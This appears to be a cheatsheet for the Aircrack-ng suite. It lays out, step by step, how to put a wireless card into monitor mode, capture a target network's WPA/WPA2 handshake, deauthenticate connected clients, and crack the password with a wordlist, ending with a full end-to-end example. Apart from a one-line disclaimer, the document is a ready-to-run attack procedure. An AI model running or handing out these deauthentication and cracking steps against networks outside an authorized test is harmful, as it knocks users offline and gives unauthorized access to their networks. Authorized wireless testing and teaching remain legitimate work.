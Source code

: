This cheatsheet includes essential commands for wireless network auditing and WPA/WPA2 password cracking using the Aircrack-ng suite.

> ⚠️ For educational and authorized penetration testing only.

bash
# Step 1: Enable Monitor Mode
sudo airmon-ng                       # List available wireless interfaces

sudo airmon-ng start wlan0           # Start monitor mode on wlan0

sudo airmon-ng stop wlan0mon         # Stop monitor mode (return to managed mode)

# Step 2: Discover Wi-Fi Networks
sudo airodump-ng wlan0mon                                 # List all nearby Wi-Fi networks
sudo airodump-ng --bssid <BSSID> -c <channel> -w handshake wlan0mon  # Capture handshake from specific network

# Step 3: Deauthenticate Clients to Capture Handshake
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon                 # Send 5 deauthentication packets

# Step 4: Crack WPA/WPA2 Password
aircrack-ng -w wordlist.txt -b <BSSID> handshake.cap      # Use wordlist to crack captured handshake

# Additional Aircrack-ng Commands
aircrack-ng --help            # Full help menu
aircrack-ng -u                # Processor/SIMD information
aircrack-ng -S                # Benchmark speed
aircrack-ng --simd-list       # List supported SIMD types
aircrack-ng -J file.hccap     # Convert capture to Hashcat format
aircrack-ng -E file.ewsa      # Generate Elcomsoft project file
aircrack-ng -C <macs>         # Merge multiple APs into one virtual AP

# Tools from Aircrack-ng Suite
airmon-ng         # Manage monitor mode
airodump-ng       # Scan and log networks
aireplay-ng       # Inject packets (e.g., deauth attacks)
aircrack-ng       # Crack passwords
airolib-ng        # Manage network/password databases
packetforge-ng    # Create custom packets for injection

# Example: Full Handshake Capture and Crack
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon
sudo aireplay-ng -0 10 -a <BSSID> wlan0mon
aircrack-ng -w rockyou.txt -b <BSSID> capture.cap

aircrack-ng -w wordlist.txt -b <BSSID> capture.cap


